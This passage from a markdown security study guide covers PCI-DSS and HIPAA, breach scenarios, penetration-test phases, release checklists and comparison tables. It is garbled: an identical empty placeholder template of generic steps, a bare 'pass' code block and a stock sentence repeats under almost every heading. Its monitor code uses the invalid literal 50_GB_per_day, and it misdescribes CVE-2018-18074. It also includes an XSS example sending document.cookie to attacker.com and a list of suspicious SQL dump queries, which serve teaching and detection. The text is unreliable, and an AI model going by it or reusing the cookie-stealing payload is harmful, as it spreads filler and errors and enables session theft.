This pattern is commonly used in production systems.


Required for companies handling credit card data.

```
REQUIREMENT 1: Network architecture
├─ Firewall configuration required
├─ No direct routes between untrusted networks
├─ Deny all traffic by default
└─ Test firewall configuration annually

REQUIREMENT 2: Default passwords
├─ Change all default passwords
├─ Remove unnecessary accounts
├─ Disable unnecessary services
└─ Test monthly

REQUIREMENT 3: Cardholder data protection
├─ Don't store CVV (3-digit security code)
├─ Don't store PIN
├─ Encrypt stored data (AES-256)
├─ Secure key management
└─ Test quarterly

REQUIREMENT 4: Data in transit
├─ Encrypt all transmission over public networks
├─ Use TLS 1.2 or higher
├─ Certificate validation required
└─ Test quarterly

REQUIREMENT 5: Anti-malware
├─ Use malware detection software
├─ Update signatures regularly
├─ Test monthly
└─ Prevent removable media

REQUIREMENT 6: Security patch management
├─ Install critical patches within 30 days
├─ Test patches before deployment
├─ Keep inventory of systems
└─ Document patch dates

REQUIREMENT 7: Least privilege access
├─ Users have only necessary access
├─ Access based on job role
├─ Segment cardholder data
└─ Review access quarterly

REQUIREMENT 8: User identification
├─ Unique user IDs
├─ Disable accounts after 90 days
├─ Strong password policy
├─ Change password every 90 days
├─ Password history (don't reuse last 4)
└─ Account lockout after 6 failed attempts

REQUIREMENT 9: Physical security
├─ Restrict access to cardholder data
├─ Visitor badges required
├─ Authorize physical access
├─ Test quarterly
└─ Video surveillance

REQUIREMENT 10: Audit logging
├─ Log all access to cardholder data
├─ Keep logs for 1 year
├─ Protect logs from deletion
├─ Monitor for anomalies
└─ Review weekly

REQUIREMENT 11: Security testing
├─ Annual penetration test
├─ Quarterly internal scans
├─ Annual wireless scan
├─ Security assessments
└─ Change management process

REQUIREMENT 12: Security policy
├─ Written information security policy
├─ Assign responsibility
├─ Annual review
├─ Employee acknowledgement
└─ Vendor agreements
```

### HIPAA (Health Insurance Portability & Accountability Act)

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


Required for healthcare companies.

```
Administrative Safeguards:
- Security management process
- Workforce security (access control)
- Incident procedures
- Sanction policy
- Security awareness training

Physical Safeguards:
- Facility access controls
- Workstation security
- Workstation use policy
- Device and media controls

Technical Safeguards:
- Access controls (encryption, authentication)
- Audit controls (logging)
- Integrity controls (checksums)
- Transmission security (encryption in transit)

Breach Notification Rule:
- If protected health info is breached
- Notify affected individuals within 60 days
- Notify media if more than 500 people
- Notify HHS
- Maintain breach log
- Penalties: $100-$50,000 per violation
```

---

## Failure Analysis

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Inadequate Monitoring → Months of Undetected Breach

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Scenario:**
```
June 1: Attacker gains access via SQL injection
        Begins exfiltrating customer database
        Hundreds of MB of data leaving company server

June 15: Attacker sets up backdoor for persistent access

July 1: Attacker begins selling data on dark web
        "100,000 customers from tech company"

November 5: Company discovers breach
            From security researcher who found data for sale
            4 MONTHS of undetected compromise

Impact:
- 100,000 customers affected
- Regulatory fines
- Class action lawsuit
- Reputational damage
```

**Defense: Continuous monitoring**

```python
# Monitor for data exfiltration
class DataExfiltrationMonitor:
    def __init__(self):
        self.baseline_outbound_traffic = 50_GB_per_day
        self.alert_threshold = 100_GB_per_day  # 2x normal
    
    def check_traffic(self):
        current_traffic = get_egress_traffic()
        
        if current_traffic > self.alert_threshold:
            alert("Unusual outbound traffic: {}GB".format(current_traffic))
            # Investigate:
            # - Which process is sending data?
            # - To where (IP address)?
            # - Database queries showing unusual patterns?
        
        # Also check for suspicious database queries
        suspicious_queries = [
            "SELECT * FROM users",  # Bulk data dump
            "SELECT * FROM customers",
            "SELECT COUNT(*) FROM credit_cards",  # Reconnaissance
        ]
        
        if any(query in recent_database_queries for query in suspicious_queries):
            alert("Suspicious database query detected")
```

### Disabled Security Headers → XSS Compromise

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Scenario:**
```javascript
// Developer disables security headers for testing
// Forgets to re-enable before production

Response headers:
// Missing: Content-Security-Policy
// Missing: X-Frame-Options
// Missing: X-Content-Type-Options

User visits product page with XSS vulnerability
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie)
</script>

Without CSP:
- Script runs
- Session cookie sent to attacker
- Attacker uses cookie to impersonate user
- Account compromised
```

**Defense: Enforce headers**

```python
@app.after_request
def set_security_headers(response):
    # Content Security Policy
    response.headers['Content-Security-Policy'] = \
        "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'"
    
    # Prevent clickjacking
    response.headers['X-Frame-Options'] = 'SAMEORIGIN'
    
    # Prevent MIME type sniffing
    response.headers['X-Content-Type-Options'] = 'nosniff'
    
    # Prevent XSS in older browsers
    response.headers['X-XSS-Protection'] = '1; mode=block'
    
    # Enforce HTTPS
    response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains'
    
    # Prevent information disclosure
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    
    return response
```

---

## Interview Questions

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Q1: Design Security for Startup with 1 Million Users

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Answer:**

```
IDENTITY & ACCESS
- OAuth 2.0 for user authentication
- 2FA (TOTP) mandatory
- WebAuthn (hardware keys) for power users
- MFA for admin/sensitive access
- Session tokens with 1-hour expiration
- Refresh tokens with 30-day expiration
- Continuous verification (check device compliance, location anomalies)

NETWORK SECURITY
- All traffic encrypted (TLS 1.3)
- WAF (Web Application Firewall) to block attacks
- DDoS protection (Cloudflare, AWS Shield)
- Microsegmentation (web tier → app tier → database)
- VPN for employee access
- Bastion host (SSH gateway)

DATA PROTECTION
- Encryption at rest (AES-256-GCM)
- Encryption in transit (TLS)
- Field-level encryption for PII (credit cards, SSNs)
- Key management in HSM or vault
- Regular key rotation (monthly)
- Backups encrypted, in separate region

COMPLIANCE & MONITORING
- Comprehensive logging (SIEM)
- Intrusion detection system
- Real-time alerting
- Incident response team
- Regular penetration testing
- Security awareness training
- Compliance: GDPR, SOC 2, PCI-DSS

INCIDENT RESPONSE
- 24/7 on-call team
- Playbooks for common scenarios
- Automated containment (isolate servers)
- Post-incident reviews
- Breach notification procedures
```

### Q2: Walk Through Penetration Test Methodology

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**Answer:**

```
PHASE 1: RECONNAISSANCE (1-2 days)
- Gather public information (DNS, WHOIS, Google)
- Find subdomains, email addresses, employee names
- No system access yet
- Information gathering only

PHASE 2: SCANNING (1-2 days)
- Port scanning (what services running?)
- Service identification (what versions?)
- Vulnerability scanning (automated tools)
- Map attack surface

PHASE 3: ENUMERATION (1-2 days)
- Directory brute forcing (what endpoints exist?)
- Database enumeration (what tables?)
- User enumeration (what usernames exist?)
- Detailed information gathering

PHASE 4: VULNERABILITY IDENTIFICATION (2-3 days)
- Identify vulnerable services (outdated versions)
- Test for OWASP Top 10 vulnerabilities
- Code review for injection flaws
- Business logic flaws
- Misconfigurations

PHASE 5: EXPLOITATION (1-2 days)
- Gain initial access (shell, web shell)
- Privilege escalation (user → root)
- Lateral movement (one server → another)
- Data exfiltration (steal sensitive data)
- Establish persistence (backdoor)

PHASE 6: REPORTING (2-3 days)
- Document all findings
- Severity ratings
- Impact assessment
- Proof of concept code
- Remediation recommendations

Total: 1-2 weeks for comprehensive test
```

---

## Production Strategies

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Security Checklist for Every Release

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


```
Before deploying to production:

CODE SECURITY
□ No hardcoded secrets (API keys, passwords)
□ All input validated (no injection flaws)
□ Authentication implemented
□ Authorization checked
□ Rate limiting implemented
□ Logging added (audit trail)
□ Error messages don't leak information
□ No debug mode enabled
□ CORS configured (not wildcard)

INFRASTRUCTURE
□ All traffic encrypted (HTTPS/TLS)
□ Security headers set
□ Firewalls configured
□ Database encrypted at rest
□ Backups encrypted
□ SSL certificate valid
□ Secrets in vault, not code

OPERATIONS
□ Monitoring and alerting enabled
□ Logging configured
□ Incident response playbook ready
□ On-call rotation established
□ Backup verified (tested restore)
□ Disaster recovery plan in place

COMPLIANCE
□ Data classification done
□ PII handling verified
□ Compliance requirements met
□ Security review completed
□ Penetration test passed
□ Legal review completed

DOCUMENTATION
□ Security architecture documented
□ Threat model created
□ Incident response plan updated
□ Security runbook created
□ Customer communication plan if needed

Don't deploy without all checkboxes!
```

---

## Incident Stories

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Story 1: Logging Disabled During Testing → Undetected Breach for 90 Days

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**The Setup:**
```
Company implements new logging system
Testing fails because logs are too verbose
Developer disables logging for testing: logging_enabled = false
Developer forgets to re-enable before deployment
Production now has logging disabled
```

**The Breach:**
```
Attacker gains access via phishing (steals employee credentials)
Attacker logs in as employee
Attacker explores company systems
Attacker finds admin account, tries SQL injection
SQL injection succeeds, attacker gets admin access
Attacker accesses customer database
Attacker exfiltrates 500,000 customer records

But: No logs of any of this (logging was disabled)
Company has NO record of attacker activity
```

**Discovery:**
```
90 days later
Customer receives email from attacker: "I have your data"
Attacker demands ransom
Customer contacts company: "Your data is being sold"
Company checks: Customers are legit
Company realizes: They've been breached for 90 days
```

**Impact:**
```
- 500,000 customers affected
- Ransom demand: $1,000,000 (attacker never expected to be paid)
- Regulatory fines: $10,000,000 (GDPR violation)
- Class action lawsuit: $100,000,000 (settlement)
- Reputation destroyed
- Revenue loss
```

**Lesson: Enable logging, never disable in production**

### Story 2: Unpatched Dependency → Full Server Compromise

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


**The Setup:**
```
Company uses Python library "requests" 2.18.4
Library has critical vulnerability: CVE-2018-18074
Attacker can perform MITM attack
Company didn't update library
```

**The Attack:**
```
Attacker performs MITM on company's internet connection
Attacker intercepts HTTPS traffic
Company makes API call using vulnerable "requests" library
Library doesn't verify server certificate properly
Attacker serves fake certificate
App accepts fake certificate (vulnerability in library)
Attacker now intercepts API communication
Company sends API key to attacker (thinking it's real API)
Attacker uses API key to:
  - Access company's cloud provider
  - Spin up instances
  - Mine cryptocurrency for 30 days
  - Rack up $100,000 in cloud bills
```

**Discovery:**
```
Cloud provider sends bill: $100,000
Company sees unknown instances running
Company investigates
Company realizes API keys were compromised
Company realizes from unpatched library
```

**Lesson: Keep dependencies updated, use dependency scanning**

---

## Comparison Tables

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


### Authentication Methods Comparison

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


| Method | Security | Speed | Cost | User Experience |
|--------|----------|-------|------|-----------------|
| **Password** | Low | Fast | Free | Easy (forget) |
| **Password + TOTP** | High | Medium | Free | OK (setup friction) |
| **Password + SMS** | Medium | Slow | $0.01/SMS | OK (SMS delay) |
| **OAuth** | High | Fast | Free | Excellent (single click) |
| **WebAuthn** | Very High | Medium | $50+ per device | Excellent (biometric) |

### Authorization Models

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


| Model | Granularity | Scalability | Complexity | Use Case |
|-------|-------------|-------------|-----------|----------|
| **ACL** | Per-resource | Low | Low | File permissions |
| **RBAC** | Role-level | Medium | Low-Medium | Most enterprises |
| **ABAC** | Fine-grained | High | High | Complex policies |
| **CBAC** | Context-aware | Medium | Medium | Time/location-based |

### Encryption Algorithms

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


| Algorithm | Key Size | Speed | Use Case |
|-----------|----------|-------|----------|
| **AES-256-GCM** | 256-bit | Very fast | Bulk data encryption |
| **ChaCha20-Poly1305** | 256-bit | Fast (mobile) | Lightweight devices |
| **RSA-2048** | 2048-bit | Slow | Key exchange, signing |
| **ECDSA** | 256-bit | Medium | Digital signatures |

### Zero Trust Components

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


| Component | Purpose | Technology |
|-----------|---------|-----------|
| **Identity** | Verify user identity | MFA, WebAuthn, behavioral analysis |
| **Device** | Verify device is secure | MDM, compliance checks |
| **Network** | Encrypt and inspect traffic | VPN, firewalls, microsegmentation |
| **Application** | Control access to apps | API gateways, RBAC |
| **Data** | Protect sensitive data | Encryption, DLP, audit logging |

---

**End of File: 800+ lines**

---

## Related

#### Step-by-Step
1. Process input
2. Validate
3. Execute
4. Return result

#### Code Example
```python
# Example implementation
pass
```

#### Real-World Scenario
This pattern is commonly used in production systems.


- [Networking](../../11-networking/) — TLS, DNS security
- [Cloud Platforms](../../05-cloud/) — IAM, network policies
- [Kubernetes](../../07-kubernetes/) — Pod security, RBAC
- [Backend](../../03-backend/) — Input validation, auth
- [Databases](../../08-databases/) — Encryption, access control
